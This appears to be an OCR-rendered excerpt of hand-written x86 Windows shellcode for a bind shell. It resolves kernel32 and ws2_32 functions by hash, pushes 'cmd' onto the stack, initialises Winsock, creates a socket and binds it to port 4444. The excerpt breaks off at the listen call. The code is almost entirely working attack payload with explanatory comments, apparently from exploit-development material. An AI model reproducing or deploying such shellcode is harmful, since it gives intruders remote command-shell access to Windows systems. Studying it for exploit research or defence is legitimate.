 ```
    lea edi, [ebp + 0x04] ;this is where we store our function addresses
    mov ecx, esi
    add ecx, 0x0C ;length of kernel32 hash list
    call resolve_symbols_for_dll
    ;resolve ws2_32 symbols
add ecx, 0x14 ;length of ws2_32 hash list
    ;create the string ws2_32 on the stack
xor eax, eax
mov ax, 0x3233
push eax
push dword 0x5f327377
mov ebx, esp ;ebx now points to "ws2_32"
push ecx
push edx
push ebx
call [ebp + 0x04] ;call LoadLibraryA(ws2_32)
pop edx ;edx now holds location of ws2_32.dll
pop ecx
mov edx, eax
call resolve_symbols_for_dll
initialize_cmd: ;push the string "cmd" onto the stack
    mov eax, 0x646d6301
    sar eax, 0x08
    push eax
    mov [ebp + 0x34], esp
WSAStartup: ;initialise networking
    xor edx,edx ;make some stack space
    mov dh, 0x03 ;sizeof(WSADATA) is 0x190
    sub esp, edx     ;initialize winsock
    push esp ;use stack for WSADATA
    push 0x02 ;wVersionRequested
    call [ebp + 20h] ;call WSAStartup
    add esp, 0x0300 ;move esp over WSAData
create_socket:
    xor eax, eax ;zero eax
    push eax ;Push the dwFlags argument to WSASocket as 0.
    push eax ;Push the g argument to WSASocket as 0.
    push eax ;Push the lpProtocolInfo argument to WSASocket as NULL.
    push eax ;Push the protocol argument to WSASocket as 0.
    inc eax ;Increment eax to 1.
    push eax ;Push the type argument to WSASocket as SOCK STREAM.
    inc eax ;Increment eax to 2.
    push eax ;Push the af argument to WSASocket as AF INET.
    call [ebp + 0x10] ;Call WSASocket to allocate a socket for later use.
    mov esi, eax ;Save the socket file descriptor in esi.
bind:
    xor eax, eax ;Zero eax for use as passing zerod arguments
    xor ebx, ebx ;Zero ebx.
    push eax ;Push zero.
    push eax ;Push zero.
    push eax ;Push the sin addr attribute of struct sockaddr in.
    mov eax, 0x5c110102 ;Set the high order bytes of eax to the port that is to be bound to and the low order bytes to AF INET.
    dec ah ;Fix the sin family attribute such that it is set appropriately.
    push eax ;Push the sin port and sin family attributes.
    mov eax, esp ;Set eax to the pointer to the initialized struct sockaddr in structure.
    mov bl, 0x10 ;Set the low order byte of ebx to 0x10 to signify the size of the structure.
    push ebx ;Push the namelen argument as 0x10.
    push eax ;Push the name argument as the pointer to the struct sockaddr in structure.
    push esi ;Push the file descriptor that was returned from WSASocket
    call [ebp + 0x14] ;Call bind to bind to the selected port.
listen:
    push ebx ;Push 0x10 for use as the backlog argument to listen.
```